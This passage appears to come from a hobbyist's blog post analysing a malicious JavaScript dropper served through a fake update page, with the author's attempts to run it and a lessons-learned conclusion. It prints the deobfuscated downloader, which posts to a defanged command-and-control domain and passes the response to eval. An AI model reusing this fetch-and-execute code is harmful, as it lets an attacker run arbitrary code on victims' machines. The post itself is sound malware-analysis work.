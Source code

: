 ```javascript
this[a0_0x35d339](a0_0x25de01);
```

And here is what it boils down to:
```javascript
var req = new this['ActiveXObject']('MSXML2.XMLHTTP');
req['open']('POST', "hxxps[://]1e5c[.]internal[.]blessedfoodshalalmeat[.]com/ajaxTimeout", false);
req['send']("qjFBPkIVCAVpqGtz0fqzot4+8QBb4gsQOC6XwFuVfQ==");
var response = req['responseText'];
eval(response);
```

I modified the `eval` to be a `WScript.Echo` command and executed it, because... YOLO, right?

Unfortunately, because I lack foresight, I accidentally clicked the "OK." on the prompt that popped up and only saw the next stage payload appear for a minute. Then it was gone into the ether. I tried executing the script again, but much like the original ad I was served, it isn't re-downloading the payload. This is super disappointing because I saw that the code was executing some WMIC commands and performing a host survey to send back to the C2.

The next day, I re-flashed my laptop with a fresh installation of Windows, went to a coffee shop and tried again. I was able to get the malicious blob served to me from the first site, however, it didn't transition into the malicious "Updated needed!" page. I went ahead and tried executing the last payload I had (the `ActiveXObject` downloader), but I was getting a weird error (`.\bad.js(3, 1) msxml3.dll: The system cannot locate the resource specified.`). After some googling to figure this out, I realized it's telling me that it can't resolve the DNS for the malicious domain. At first I thought it might be the coffee shop WiFi doing some filtering, but after using an online NS lookup tool, I realized that the DNS records were deleted some time last night. This must have been in response to the next stage having been downloaded. It's unclear whether deleting the DNS records was automatic or manual.

## Conclusion
This was a pretty weird series of events. I'm not sure what type of adversary this was. It was too advanced to be "spray-and-pray" adware, as they took down infrastructure and masqueraded with reasonable domains. I doubt it was anything targetted, because I'm a nobody, they didn't use any 0days, and dropping `.js` hoping that I would execute it is a big leap. So, I'm thinking it's somewhere in the middle, an adversary that doesn't target, but invests in reasonable tooling and obfuscation.

I did get to take away a decent lessons learned: always enable logging and take things more slowly during an investigation, even when the investigation is just for fun on my own time. When I used to work in cybersecurity analytics/threat hunt/incident response, I had a good set up with a lot of logging running. This most likely would have saved my bacon by capturing the output of the malicious JavaScript. However, since this was just a hobby "investigation", I didn't take it as seriously, and missed out on what could have been a much deeper rabbit hole!
